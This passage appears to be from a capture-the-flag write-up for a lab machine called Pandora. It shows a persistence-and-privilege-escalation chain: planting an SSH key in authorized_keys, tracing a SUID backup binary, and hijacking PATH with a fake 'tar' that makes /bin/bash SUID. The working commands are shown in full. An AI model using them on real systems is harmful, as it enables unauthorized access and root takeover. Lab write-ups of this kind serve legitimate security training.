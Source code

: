 Since we are in a process that got forked by apache with suid disabled we need to get another connection to interact with it.
One way to do this is to generate a ssh key, dropping the public part it in matt's `.ssh` folder as `authorized_keys` and then logging in.

```
matt@pandora:/home/matt$ mkdir .ssh
matt@pandora:/home/matt$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICoU1zrB+cqbMiHQgnh6yc2ow/Re307t0JVC1Kiqiofa' > .ssh/authorized_keys
```

```
$ ssh -i matt matt@10.129.174.44
...[snip]...
matt@pandora:~$
```

Taking a closer look at the binary using `ltrace`, we see that it calls tar using system without specifying an absolute path.  This is vulnerable to path injection. The plan is to create our own "tar", give the path with the new "tar" priority and then run the suid binary.

```
matt@pandora:~$ ltrace pandora_backup
getuid()                                                                                                                                            = 1000
geteuid()                                                                                                                                           = 1000
setreuid(1000, 1000)                                                                                                                                = 0
puts("PandoraFMS Backup Utility"PandoraFMS Backup Utility
)                                                                                                                   = 26
puts("Now attempting to backup Pandora"...Now attempting to backup PandoraFMS client
)                                                                                                         = 43
system("tar -cvf /root/.backup/pandora-b"...tar: /root/.backup/pandora-backup.tar.gz: Cannot open: Permission denied
tar: Error is not recoverable: exiting now
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                              = 512
puts("Backup failed!\nCheck your permis"...Backup failed!
Check your permissions!
)                                                                                                        = 39
+++ exited (status 1) ++
```

First we create our new "tar", which gives bash the suid bit, in the `/tmp` directory, make it executable and export the new path.

```
matt@pandora:~$ echo -ne '#!/bin/bash\n\nchmod +s /bin/bash' > /tmp/tar
matt@pandora:~$ chmod +x /tmp/tar
matt@pandora:~$ export PATH=/tmp:$PATH
```
